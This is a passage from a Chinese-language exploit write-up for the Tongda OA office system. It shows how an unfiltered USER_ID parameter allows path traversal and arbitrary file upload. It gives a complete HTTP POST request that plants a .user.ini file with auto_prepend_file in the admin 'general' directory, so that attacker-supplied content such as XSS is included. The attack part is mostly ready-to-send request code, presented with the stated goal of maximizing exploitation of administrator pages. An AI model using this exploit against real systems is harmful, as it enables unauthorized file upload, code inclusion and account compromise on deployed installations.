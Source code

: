 ```php
	}
}
```

![image-20220209111308741](./images/202202091113931.png)

在这里参数 **$USER_ID** 是可控的，并且无过滤危险符号就拼接进去了，那我们传入 **../../../** 我们就可以任意文件上传了

由于通达OA 的文件上传限制的死死的，所以我们可以通过利用 PHP的 **.user.ini** 文件来包含其他文件，这里是可以用于包含XSS语句的文件的，所以我们上传文件

内容为

```plain
auto_prepend_file=test.log
```

我们想要最大化利用可以上传在**首页或者管理员** 界面，利用自定义弹窗来渗透

这里对管理员页面 **general** 目录上传

请求包为

```plain
POST /general/hr/manage/staff_info/update.php?USER_ID=../../general/.user HTTP/1.1
Host: 192.168.1.105
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------17518323986548992951984057104
Content-Length: 365
Connection: close
Cookie: USER_NAME_COOKIE=admin; OA_USER_ID=admin; PHPSESSID=kqfgar7u3c0ang0es41u3u67p4; SID_1=a63eb31
Upgrade-Insecure-Requests: 1

-----------------------------17518323986548992951984057104
Content-Disposition: form-data; name="ATTACHMENT"; filename="peiqi.ini"
Content-Type: text/plain

auto_prepend_file=peiqi.log
-----------------------------17518323986548992951984057104
Content-Disposition: form-data; name="submit"

提交
-----------------------------17518323986548992951984057104--
```

其中 **USER_ID=../../general/.user** 为上传路径

```plain
Content-Disposition: form-data; name="ATTACHMENT"; filename="peiqi.ini"
Content-Type: text/plain

auto_prepend_file=peiqi.log
```
